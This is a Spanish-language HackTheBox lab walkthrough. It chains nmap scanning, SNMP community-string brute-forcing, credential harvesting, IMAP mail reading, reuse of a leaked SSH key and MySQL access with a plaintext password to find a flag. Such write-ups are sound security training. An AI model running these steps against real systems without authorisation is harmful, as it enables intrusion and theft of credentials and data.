









# Práctica Final: Difícil 🐧3️⃣


1. Primero tenemos que saber que **puertos** de la máquina objetivo están expuestos.

```sql
nmap -p- -sS -Pn -n <IP> -oG ports
```


---

2. En el enunciado de **HackTheBox** nos dicen que debemos auditar un **servidor de correos (MX)**, pero, necesitamos de credenciales y no las tenemos aún.

---

3. Enumeramos los puertos por **UDP**.

```sql
nmap -p- -sU <IP> -oG ports_udp
```


- Vemos que el **servicio SNMP** está disponible.

---

4. Enumeramos **“String Communities”** del servicio

```sql
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp.txt <IP>
```


- Vemos que **“backup”** es una **“String Community”** válida.

---

5. Usaremos **snmpwalk** y la **string community ‘backup’** para enumerar el servicio **SNMP**

```sql
snmpwalk -v2c -c backup <IP>
```



- Tenemos credenciales las cuales podremos usar para **autenticarnos** en el servidor de correo.

---

6. Usaremos **openssl** y las credenciales anteriores para autenticarnos.

```sql
openssl s_client -connect <IP>:imaps
```

- **Comando para autenticarse: `A LOGIN "user" "password"`**

---

7. Ahora listamos todos los ***buzones de correo** del usuario **tom**

```sql
A LIST ""
```


Verificamos si existen mensajes en todos los **buzones** (`A SELECT <CARPETA>`) y vemos que **en INBOX** si hay



---

8. Vemos el contenido del correo **`A FETCH 1 BODY[]`**



- Conseguimos una **clave id_rsa,** la cual trataremos de usar para **autenticarnos por SSH**

```python
✅ Debemos asignarle el permiso 600 a la clave id_rsa para que el servicio SSH no de problemas al intentar autenticarnos.
```

---

9. Nos autenticamos con la **clave id_rsa** encontrada

```bash
ssh tom@<IP> -i id_rsa
```



---

10. Inspeccionamos los servicios que la **máquina tiene localmente `netstat -nat`**

)

- **MySQL** se ejecuta por default en el **puerto 3306**

---

11.  Accedemos a **MySQL**

```sql
mysql -u "tom" -p'NMds732Js2761'
```

---

12. Ahora solo nos queda inspeccionar **MySQL**
- Mostramos las **todas bases de datos** de MySQL `SHOW DATABASES;`



- Usaremos la base de datos **‘users’ `USE users;`** y mostramos las tablas que existen **`SHOW TABLES;`**



- Vemos que campos tiene la **tabla ‘users’ `DESCRIBE users`**



- Buscamos el registro que tenga por nombre **HTB `SELECT * FROM users WHERE username='HTB'`**

